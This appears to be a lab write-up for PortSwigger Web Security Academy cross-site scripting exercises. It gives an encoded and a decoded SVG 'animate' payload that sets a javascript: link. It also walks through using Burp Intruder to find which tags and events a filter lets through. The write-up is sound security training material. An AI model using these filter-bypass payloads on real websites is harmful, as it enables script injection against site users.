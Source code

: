 ```bash
# <a href="">Click me</a>

Craft a payload:

< = %3c
> = %3e
+ = %20

https://ac8e1f411e3cb19dc091085b009c00ff.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E

// or // decoded

https://ac8e1f411e3cb19dc091085b009c00ff.web-security-academy.net/?search=<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y>Click me</text></a>

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220518232203.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220518232222.png)

### Reflected XSS with some SVG markup allowed
```bash

#  This lab has a simple reflected XSS vulnerability. The site is blocking common tags but misses some SVG tags and events.

# To solve the lab, perform a cross-site scripting attack that calls the alert() function. 

Enter into the search bar:

<img src=1 onerror=alert(1)>

Response:

"Tag is not allowed"

Go to: HTTP history
Find:

GET /?search=%3Cimg+src%3D1+onerror%3Dalert%281%29%3E HTTP/1.1

Send to intruder

GET /?search=<§§> HTTP/1.1

Go to:

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

Click "Copy tags to clipboard"
Go to: Payloads
Payload Options[Simple list]
Paste
Start attack

"200" status code:

animatetransform
image
svg
```